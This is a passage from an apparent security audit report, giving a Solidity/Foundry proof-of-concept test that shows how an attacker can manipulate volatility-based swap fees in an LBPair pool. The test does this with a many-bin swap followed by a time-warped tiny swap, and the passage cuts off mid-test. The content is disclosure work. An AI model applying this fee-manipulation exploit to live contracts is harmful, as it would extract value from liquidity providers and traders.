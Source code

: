 ### [](#proof-of-concept-9)Proof of Concept

Add this test in LBPair.Fees.t.sol:

    function testAbuseHighFeesAttack() public {
            uint256 amountY = 30e18;
            uint256 id;
            uint256 reserveX;
            uint256 reserveY;
            uint256 amountXInForSwap;
            uint256 amountYInLiquidity = 100e18;
            FeeHelper.FeeParameters memory feeParams;
    
            addLiquidity(amountYInLiquidity, ID_ONE, 2501, 0);
    
            //swap X -> Y and accrue X fees
            (amountXInForSwap,) = router.getSwapIn(pair, amountY, true);
    
            (reserveX,reserveY,id ) = pair.getReservesAndId();
            feeParams = pair.feeParameters();
            console.log("indexRef - start" , feeParams.indexRef);
            console.log("volatilityReference - start" , feeParams.volatilityReference);
            console.log("volatilityAccumulated - start" , feeParams.volatilityAccumulated);
            console.log("active ID - start" , id);
            console.log("reserveX - start" , reserveX);
            console.log("reserveY - start" , reserveY);
    
            // ATTACK step 1 - Cross many bins / wait for high volatility period
            token6D.mint(address(pair), amountXInForSwap);
            vm.prank(ALICE);
            pair.swap(true, DEV);
    
            (reserveX,reserveY,id ) = pair.getReservesAndId();
            feeParams = pair.feeParameters();
            console.log("indexRef - swap1" , feeParams.indexRef);
            console.log("volatilityReference - swap1" , feeParams.volatilityReference);
            console.log("volatilityAccumulated - swap1" , feeParams.volatilityAccumulated);
            console.log("active ID - swap1" , id);
            console.log("reserveX - swap1" , reserveX);
            console.log("reserveY - swap1" , reserveY);
    
            // ATTACK step 2 - Decay the Va into Vr
            vm.warp(block.timestamp + 99);
            token18D.mint(address(pair), 10);
            vm.prank(ALICE);
            pair.swap(false, DEV);
    
            (reserveX,reserveY,id ) = pair.getReservesAndId();
            console.log("active ID - swap2" , id);
            console.log("reserveX - swap2" , reserveX);
            console.log("reserveY - swap2" , reserveY);
            feeParams = pair.feeParameters();
            console.log("indexRef - swap2" , feeParams.indexRef);
            console.log("volatilityReference - swap2" , feeParams.volatilityReference);
            console.log("volatilityAccumulated - swap2" , feeParams.volatilityAccumulated);
    